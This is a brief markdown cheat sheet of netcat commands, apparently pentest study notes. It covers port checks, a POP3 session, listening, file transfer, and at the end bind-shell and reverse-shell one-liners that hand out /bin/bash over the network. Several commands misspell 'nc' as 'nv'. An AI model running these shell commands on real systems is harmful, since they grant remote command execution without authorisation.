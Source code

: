 ```yaml
---
title: "netcat"
linkTitle: "netcat"
date: 2017-01-05
---
```


### Check open port

```bash
nc -vz 1.1.1.1 53
nc -vnz 1.1.1.1 53
```

### Interact with pop3 service

```bash
$ nc -v  10.1.1.7 110
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Connected to 10.1.1.7:110.
+OK example.com Cyrus POP3 v2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 server ready <2488404358.1644174792@example.com>
USER offsec
+OK Name is a valid mailbox
PASS offsec
-ERR [AUTH] Invalid login
quit
+OK
```

### Listen

```bash
nv -lnvp 1234
```

on localhost:

```bash
nc -nv -l 127.0.0.1 -p 1234
```

### Transfer

Alice -> Bob

Bob:

```bash
nv -lnvp 1234 > file
```

Alice:

```bash
nv -nv 192.168.1.1 1234 < file
```

### Bind shell

Alice -> Bob

Bob:

```bash
nc -nv -l 127.0.0.1 1234 -e /bin/bash
```

Alice:

```bash
nc -nv 127.0.0.1 1234
```

### Reverse shell

`Alice <- Bob`

Bob:

```bash
nc -nv -l 127.0.0.1 1234
```

Alice:

```bash
nc -nv 127.0.0.1 1234 -e /bin/bash
```
